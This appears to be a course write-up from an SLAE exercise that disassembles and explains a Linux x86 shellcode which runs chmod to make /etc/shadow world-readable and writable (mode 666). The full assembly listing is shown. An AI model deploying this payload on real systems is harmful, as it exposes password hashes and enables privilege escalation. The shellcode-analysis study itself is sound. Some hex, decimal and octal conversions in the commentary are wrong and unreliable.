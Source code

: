 # Solution (Using GDB and Libemu)

Using exec_compile.sh, the final shellcode is generated and executed. We can use GDB to analyze its behaviour. 

Using Libemu, we can obtain the next image of the process flow:

![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/chmod/chmod.png "Flow")

If we analyze the nasm code, we can reach the following conclusions:

      cwd
      push byte 0xf
      pop eax
      push edx
      call 0x1
      pop ebx
      push dword 0x1b6
      pop ecx
      int 0x80
      push byte 0x1
      pop eax
      int 0x80

1)   cwd
     
     push byte 0xf
     
     pop eax
          
          EAX is set to 15 (xb in decimal) which is chmod. Edx is set to 0 too. 
      
2)    push edx
            
          EDX is pushed to the stack 
    
3)    call 0x1 
      
          Next instruction is called 
     
 4)  pop ebx
 
          EBX is set to the file which will be modified, in this case, /etc/shadow
    
  5)  push dword 0x1b6
       
      pop ecx
      
          666 is pushed to the stack (1b6 in decimal) and assigned to ecx
          
   6) int 0x80 
   
            chmod is executed 
            EAX=15 (chmod syscall)
            EBX=/etc/shadow (PATH)
            ECX=666 (permissions to assign to the file)
            
   7) push byte 0x1
   
      pop eax
      
      int 0x80
      
        Exit function is called and the process exits quietly.
